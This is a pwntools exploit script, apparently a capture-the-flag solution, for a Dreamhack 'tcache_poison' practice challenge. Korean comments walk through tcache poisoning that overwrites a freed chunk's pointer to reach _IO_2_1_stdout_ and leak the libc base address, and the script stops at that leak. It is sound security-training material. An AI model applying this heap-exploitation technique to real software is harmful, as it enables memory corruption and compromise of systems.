 
```py
from pwn import *

p = remote('host3.dreamhack.games', 16758)
elf = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')


def allocate(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)  # 나중에 _IO_2_1_stdout__lsb를 보낼때 sendline으로 보내면 공백이 추가되서 안됨


def free():
    p.sendlineafter(b'Edit\n', b'2')


def print_chunk():
    p.sendlineafter(b'Edit\n', b'3')


def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk: ', content)


# tcache[0x40] : empty
# chunk : first(1)
allocate(0x30, b'first')


# tcache[0x40] : first(1)
# chunk : first(1)
free()  # (1)


# tcache[0x40] : first(1) -> stdout -> _IO_2_1_stdout_
# chunk : first(1)
stdout = elf.symbols['stdout']
edit(p64(stdout))


# tcache[0x40] : stdout -> _IO_2_1_stdout_
# chunk : first(1)
allocate(0x30, b'a')
# 어떤 값을 대입하면서 allocate하더라도 이미 tcache에는 stdout이 링크드 리스트의 헤더(청크의 헤더X)로 존재하므로 상관없음


# tcache[0x40] : _IO_2_1_stdout_
# chunk : stdout
_IO_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]  # 첫번째 문자열 가져옴 : 문자열에서 첫번째는 lsb
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
```